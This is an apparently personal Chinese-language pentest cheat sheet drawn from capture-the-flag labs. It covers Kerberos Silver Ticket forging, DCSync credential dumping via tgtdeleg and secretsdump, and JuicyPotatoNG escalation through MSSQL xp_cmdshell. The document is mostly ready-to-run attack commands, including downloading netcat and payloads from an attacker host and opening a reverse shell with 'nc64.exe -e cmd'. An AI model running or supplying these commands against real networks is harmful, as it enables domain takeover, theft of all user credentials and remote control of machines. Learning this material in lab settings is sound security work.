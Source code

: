
- ### Silver Ticket Attack
如果拥有一个运行服务的凭据，比如说 SQL 的凭据 
那就可能可以伪造 TGS(票证授予服务) 票证，直接在客户与服务中使用，不经过 dc
```
iconv -f ASCII -t UTF-16LE <(printf "Password") | openssl dgst -md4   (生成NTLM Hash)
python /usr/share/doc/python3-impacket/examples/getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson   (获取域SID Domain SID)
(查询SPN见下)
```

```
python /usr/share/doc/python3-impacket/examples/ticketer.py -spn MSSQLSvc/dc1.scrm.local:1433 -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local administrator

KRB5CCNAME=administrator.ccache  脚本后跟-k 
例: 
KRB5CCNAME=administrator.ccache python /usr/share/doc/python3-impacket/examples/mssqlclient.py -k dc1.scrm.local
```


 - ### 通过机器帐户请求服务票证
https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync
与银票攻击类似，在域内得到了一个虚拟账户的 shell, 例如 `iis apppool\defaultapppool`; 或者是 sql server 的用户
```python
# 由于作为 MSSQL 的服务账户运行，可以通过网络以该账户的身份向 DC 进行身份验证，它将是运行 MSSQL 的计算机账户，也就是 DC。DC 的计算机帐户有权进行 DC 同步攻击
```
如果使用 responder 可以获得其 hash, 就可以通过 dcsync， 获取域内所有的用户凭据

```bash
.\Rubeus.exe tgtdeleg /nowrap         #获取帐户的虚假委托票证
python3 /usr/lib/python3/dist-packages/minikerberos/examples/kirbi2ccache.py ticket.kirbi ticket.ccache     # 解码 base64 票据并将其另存, 转换为ccache

export KRB5CCNAME=ticket.ccache
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -no-pass g0.flight.htb -k [-just-dc-user administrator]
```


### `SeImpersonatePrivilege` ，(`SeAssignPrimaryToken`)  权限 : 利用 Juice Potato 本地提权
[+] JuicyPotato doesn't work on _Windows Server 2019_ and _Windows 10 build 1809_
**Windows Server 2019 可以使用 rogue potato**
https://github.com/antonioCoco/JuicyPotatoNG   
**mssql xm_cmdshell ：**
re.bat : `C:\programdata\nc64.exe -e cmd 10.10.14.32 1433`
```
enable xp_cmdshell
xp_cmdshell "powershell curl http://10.10.14.32:8888/nc64.exe -OutFile C:\programdata\nc64.exe"
xp_cmdshell "powershell curl http://10.10.14.32:8888/JuicyPotatoNG.exe -OutFile C:\programdata\jp.exe"
xp_cmdshell "powershell curl http://10.10.14.32:8888/re.bat -OutFile C:\programdata\re.bat"

nc -lvvp 1433 (kali本地监听)

xp_cmdshell "C:\programdata\jp.exe -t * -p C:\programdata\re.bat"  (得到reverse shell)
```
